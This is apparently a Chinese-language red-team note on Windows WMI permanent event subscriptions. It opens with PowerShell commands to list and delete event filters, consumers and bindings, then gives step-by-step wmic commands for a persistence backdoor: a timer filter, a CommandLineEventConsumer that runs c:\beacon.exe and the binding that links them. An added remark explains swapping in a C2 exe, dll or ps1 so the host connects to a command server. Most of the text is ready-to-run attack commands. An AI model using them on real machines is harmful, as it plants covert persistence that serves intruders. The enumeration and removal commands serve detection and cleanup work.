 ## WMI

### 查询事件

#### 列出事件过滤器

```powershell
Get-WMIObject -Namespace root\Subscription -Class __EventFilter
```

#### 列出事件消费者

```powershell
Get-WMIObject -Namespace root\Subscription -Class __EventConsumer
```

#### 列出事件绑定

```powershell
Get-WMIObject -Namespace root\Subscription -Class __FilterToConsumerBinding
```

### 删除事件

#### 删除事件过滤器

```powershell
Get-WMIObject -Namespace root\Subscription -Class __EventFilter -Filter "Name='事件过滤器名'" | Remove-WmiObject -Verbose
```

#### 删除事件消费者

```powershell
Get-WMIObject -Namespace root\Subscription -Class CommandLineEventConsumer -Filter "Name='事件消费者名'" | Remove-WmiObject -Verbose
```

#### 删除事件绑定

```powershell
Get-WMIObject -Namespace root\Subscription -Class __FilterToConsumerBinding -Filter "__Path LIKE '%事件绑定名%'" | Remove-WmiObject -Verbose
```

## 利用原理

### WMI永久事件

注意：没有指定时间轮询则需要机器重启才可以进行WMI轮询，需要注意的一点是，WMI可以任意指定触发条件，例如用户退出，某个程序创建，结束等等。

注意：可以考虑添加Powershell的时间间隔器，需要上线至C2则将Payload替换成C2的exe或者dll或者ps1即可

#### 注册一个 WMI 事件过滤器

```cmd
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="BugSecFilter", EventNamespace = "root\cimv2", QueryLanguage="WQL", Query="SELECT * FROM __TimerEvent WITHIN 10 WHERE TimerID = 'BugSecFilter'"
```

#### 注册一个 WMI 事件消费者

```cmd
wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="BugSecConsumer", CommandLineTemplate="cmd.exe /c  c:\beacon.exe"
```

#### 将事件消费者绑定到事件过滤器

```cmd
wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter='\\.\root\subscription:__EventFilter.Name="BugSecFilter"', Consumer='\\.\root\subscription:CommandLineEventConsumer.Name="BugSecConsumer"'
```

```bat
:: Based on http://www.exploit-monday.com/2016/08/wmi-persistence-using-wmic.html

:: the following command are meant for cmd but can be used with wmic.exe by simply writing them without the wmic at the start.

:: Create an __EventFilter instance.
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="BugSecFilter", EventNamespace = "root\cimv2", QueryLanguage="WQL", Query="select * from __InstanceCreationEvent within 5 where targetInstance isa 'Win32_Process' and TargetInstance.Name = 'chrome.exe'"

:: Create an __EventConsumer instance
wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="BugSecConsumer", CommandLineTemplate="cmd.exe /c echo test > c:\WMI-wmic.txt"

:: Create a __FilterToConsumerBinding instance
wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter='\\.\root\subscription:__EventFilter.Name="BugSecFilter"', Consumer='\\.\root\subscription:CommandLineEventConsumer.Name="BugSecConsumer"'
```

### 定时执行

#### Step 1

- `/NAMESPACE:"\\root\subscription"`: 指定 WMI 命名空间为 "\root\subscription"，这是用于访问事件订阅相关信息的命名空间
- `PATH __EventFilter CREATE`: 创建一个名为 "__EventFilter" 的对象，该对象是事件筛选器
- `Name="BotFilter82"`: 设置筛选器的名称为 "BotFilter82"
- `EventNameSpace="root\cimv2"`: 设置事件名称空间为 "root\cimv2"，表示在此名称空间中查询事件
- `QueryLanguage="WQL"`: 设定查询语言为 WQL (Windows Query Language)
- `Query="SELECT * FROM __InstanceModificationEvent WITHIN 120 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"`: 设置查询语句，该语句使用了 "__InstanceModificationEvent" 类来监视某个时间段内（120秒） "Win32_PerfFormattedData_PerfOS_System" 类型的实例修改事件

```cmd
# Usage
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="筛选器的名称"
, EventNameSpace="事件名称空间",QueryLanguage="WQL", Query="SELECT * FROM __Instance
ModificationEvent WITHIN 120 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"

wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="BotFilter82"
, EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT * FROM __Instance
ModificationEvent WITHIN 120 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
```

#### Step 2

```cmd
# Usage
wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="消费者的名称", ExecutablePath="可执行文件路径",CommandLineTemplate="命令行参数模板"

wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="B
otConsumer23", ExecutablePath="C:\Windows\System32\notepad.exe",CommandLineTemplate="C:\Windows\System32\notepad.exe"
```

- `/NAMESPACE:"\\root\subscription"`: 指定 WMI 命名空间为 "\root\subscription"
- `PATH CommandLineEventConsumer CREATE`: 创建一个名为 "CommandLineEventConsumer" 的对象，该对象是命令行事件消费者
- `Name="BotConsumer23"`: 设置消费者的名称为 "BotConsumer23"
- `ExecutablePath="C:\Windows\System32\notepad.exe"`: 指定可执行文件路径为 "C:\Windows\System32\notepad.exe"
- `CommandLineTemplate="C:\Windows\System32\notepad.exe"`: 指定命令行参数模板为 "C:\Windows\System32\notepad.exe"

#### Step 3

```cmd
wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter
="__EventFilter.Name=\"BotFilter82\"", Consumer="CommandLineEventConsumer.Name=\"B
otConsumer23\""
```
